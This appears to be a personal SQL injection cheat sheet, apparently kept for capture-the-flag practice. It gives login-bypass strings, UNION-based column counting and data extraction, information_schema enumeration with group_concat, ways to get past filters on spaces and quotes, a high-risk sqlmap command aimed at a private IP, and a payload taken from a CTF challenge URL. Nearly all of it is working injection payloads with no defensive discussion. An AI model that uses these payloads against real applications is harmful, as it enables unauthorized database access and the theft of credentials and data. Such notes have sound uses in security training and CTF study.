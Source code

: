 = SQL injection

== Basic tips

use

    ' OR 1

instead of

    ' OR 1=1 --

Because the query can stay semantically correct. Use in both user and pass
fields. Via Unikoder

Union-based tips

* add colums until query passes

  union select 1 -- fail
  union select 1,2 -- fail
  union select 1,2,3 -- fail
  union select 1,2,3,4 -- success!

* get information out of it

  union select username,2,3,4 -- fail
  union select 1,username,3,4 -- success!
  ...

Information schema grinding tips

* leverage group_concat (COALESCE in postgresql)
  * databases

    union select 1,group_concat(TABLE_SCHEMA),3,4 FROM information_schema.tables (GROUP BY ...)

  * tables
  
    union select 1,group_concat(TABLE_NAME),3,4 FROM information_schema.tables (GROUP BY ...)

== Restrictions bypass

=== No spaces allowed

Use comments: '/**/OR/**/'admin'/**/OR/**/'

=== Single quotes stripped

Use \ to prevent quote from closing and hope to control later

== sqlmap

python sqlmap.py -v 5 --time-sec=15 --dbms=PostgreSQL -u "http://192.168.103.1:4574/?t=1" -p t --not-string="try to submit illegal characters" --level=5 --risk=3

--tamper=TAMPER     Use given script(s) for tampering injection data

with http://forkbombers.blogspot.ca/2013/05/sqlmaps-tamper-scripts.html


== SQLi collection

----
ip=\
id= OR 1 > 2 UNION SELECT group_concat(COLUMN_NAME) FROM INFORMATION_SCHEMA.columns WHere TABLE_NAME LIke CHar(102,108,97,103);#
http://blacklist.adctf2014.katsudon.org/search?ip=\&id=%20or%201%3E2%20UNION%20SELECT%20group_concat(COLUMN_NAME)%20FROM%20INFORMATION_SCHEMA.columns%20WHere%20TABLE_NAME%20LIke%20CHar(102,%20108,%2097,%20103);%23
----

== OWASP Track

    notexists') UNION SELECT 'yolo' # 
